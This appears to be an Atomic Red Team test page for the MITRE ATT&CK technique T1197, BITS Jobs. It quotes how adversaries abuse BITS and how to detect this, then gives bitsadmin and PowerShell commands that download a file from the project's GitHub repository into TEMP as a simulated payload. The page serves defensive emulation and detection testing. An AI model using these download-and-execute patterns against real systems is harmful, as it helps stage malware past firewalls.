 # T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1197)
<blockquote>Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through Component Object Model (COM) (Citation: Microsoft COM). (Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through PowerShell  (Citation: Microsoft BITS) and the BITSAdmin tool. (Citation: Microsoft BITS)Admin

Adversaries may abuse BITS to download, execute, and even clean up after malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls. (Citation: CTU BITS Malware June 2016) (Citation: Mondok Windows PiggyBack BITS May 2007) (Citation: Symantec BITS May 2007) BITS enabled execution may also allow Persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots). (Citation: PaloAlto UBoatRAT Nov 2017) (Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform Exfiltration Over Alternative Protocol. (Citation: CTU BITS Malware June 2016)

Detection: BITS runs as a service and its status can be checked with the Sc query utility (<code>sc query bits</code>). (Citation: Microsoft Issues with BITS July 2011) Active BITS tasks can be enumerated using the BITSAdmin tool (<code>bitsadmin /list /allusers /verbose</code>). (Citation: Microsoft BITS)

Monitor usage of the BITSAdmin tool (especially the ‘Transfer’, 'Create', 'AddFile', 'SetNotifyFlags', 'SetNotifyCmdLine', 'SetMinRetryDelay', 'SetCustomHeaders', and 'Resume' command options)  (Citation: Microsoft BITS)Admin and the Windows Event log for BITS activity. Also consider investigating more detailed information about jobs by parsing the BITS job database. (Citation: CTU BITS Malware June 2016)

Monitor and analyze network activity generated by BITS. BITS jobs use HTTP(S) and SMB for remote connections and are tethered to the creating user and will only function when that user is logged on (this rule applies even if a user attaches the job to a service account). (Citation: Microsoft BITS)

Platforms: Windows

Data Sources: API monitoring, Packet capture, Windows event logs

Defense Bypassed: Firewall, Host forensic analysis

Permissions Required: User, Administrator, SYSTEM

Contributors: Ricardo Dias, Red Canary</blockquote>

## Atomic Tests

- [Atomic Test #1 - Download & Execute](#atomic-test-1---download--execute)

- [Atomic Test #2 - Download & Execute via PowerShell BITS](#atomic-test-2---download--execute-via-powershell-bits)


<br/>

## Atomic Test #1 - Download & Execute
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload

**Supported Platforms:** Windows


#### Run it with `command_prompt`!
```
bitsadmin.exe  /transfer /Download /priority Foreground https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md %TEMP%\bitsadmin_flag.ps1
```
<br/>
<br/>

## Atomic Test #2 - Download & Execute via PowerShell BITS
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
Start-BitsTransfer -Priority foreground -Source https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md -Destination $env:TEMP\AtomicRedTeam\bitsadmin_flag.ps1
```
<br/>
